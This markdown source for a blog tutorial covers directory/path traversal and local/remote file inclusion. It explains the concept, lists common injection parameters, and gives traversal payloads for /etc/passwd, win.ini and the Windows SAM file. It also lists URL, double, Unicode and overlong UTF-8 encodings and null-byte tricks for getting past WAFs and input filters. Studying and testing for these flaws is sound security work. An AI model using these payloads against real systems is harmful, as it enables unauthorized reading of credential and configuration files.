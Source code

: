 ```yaml
---
title:  "Directory/Path Traversal & LFI/RFI"
date:   2019-08-20 12:20:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/whitehat.jpg
---
```



## What is Directory/Path Traversal ?

•A path traversal attack (also known as directory traversal) aims
to access files and directories that are stored outside the web
root folder.

•By manipulating variables that reference files with “dot-dot-slash
(../)” sequences and its variations or by using absolute file
paths, it may be possible to access arbitrary files and directories
stored on file system including application source code or
configuration and critical system files

## How does it work ?

•file_read(“/htdocs/website/reports/” + user_input + “.pdf”)

```c
https://www.example.com/getfile?path=File2503sm
```


## Some common parameters or injection points
```c 
•file=
•location=
•lang=
• path=
• display=
•load=
•read=
•retrieve=

```

## Old school knowledge (1)

• Root folder
![](https://i.imgur.com/dL9jlpG.png)

•Directory separator symbols

![](https://i.imgur.com/CIwYSYV.png)

## Old school knowledge (2)
  • Move up the current directory

![](https://i.imgur.com/9Q5ajRy.png)

  • Terminate the current file name

![](https://i.imgur.com/F46WlQf.png)

## Detection

```code
•file=foo/file1.txt
• Try: file=foo/bar/../file1.txt
• Match => vulnerable
•Different => ???
```


## Basic directory/path traversal
 ```c 
 •../../../../../../../../../../../../../../etc/passwd
 •..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini
 •If in write context, for Windows platforms
 • ../../../../../../../../../../../../writetest.txt
 • ../../../../../../../../../../../../windows/system32/config/sam
 • For Unix-based platforms
 • ../../../../../../../../../../../../tmp/writetest.txt
 • ../../../../../../../../../../../../tmp

If the second returns an error message but first does not, the application probably is vulnerable.
```

## Bypass waf/filter (1)

•URL encode
```c
  • . => %2e
  • / => %2f
  • \ => %5c
 ../ => %2e%2e%2f, %2e%2e/, ..%2f
 ..\ => %2e%2e%5c, %2e%2e\, ..%5c
 ```
•Double url encode
```c
  • ../ => %252e%252e%252f and so on
  • ..\ => %252e%252e%255c and so 
```

## Bypass waf/filter (2)

• 16-bit Unicode-Encoding
```c
  • . => %u002e
  • / => %u2215
  • \ => %u2216
```
•Overlong UTF-8 Unicode-Encoding
```c
  • . => %c0%2e, %e0%40%ae, %c0ae, …
  • / => %c0%af, %e0%80%af, %c0%2, ...
  • \ => %c0%5c, %c0%80%5c
```

## Bypass waf/filter (3)

• Bypass sanitize user input by removing traversal sequences and does not apply this filter recursively
```c
  • ....//
  • ....\/
  • ..../\
  • .....\\
```  
•Using %00, %0a to bypass file type checking, file type inserting
```c
  • ../../../../../../../../etc/passwd%00
  • ../../../../../../../../etc/passwd%0a.jpg
```
## Bypass waf/filter (4)

• Some applications check whether the user-supplied file name starts
with a particular subdirectory of the start directory, or even a specific
file name.
```c
  • wahh-app/images/../../../../../../../etc/passwd
```

## Cheatsheets

![https://github.com/2503sm/2503sm.github.io/blob/master/attack/JHADDIX_LFI.txt](https://github.com/2503sm/2503sm.github.io/blob/master/attack/JHADDIX_LFI.txt)

![https://github.com/2503sm/2503sm.github.io/blob/master/attack/lfi.txt](https://github.com/2503sm/2503sm.github.io/blob/master/attack/lfi.txt)

![https://github.com/2503sm/2503sm.github.io/blob/master/attack/traversals-8-deep-exotic-encoding.txt](https://github.com/2503sm/2503sm.github.io/blob/master/attack/traversals-8-deep-exotic-encoding.txt)






















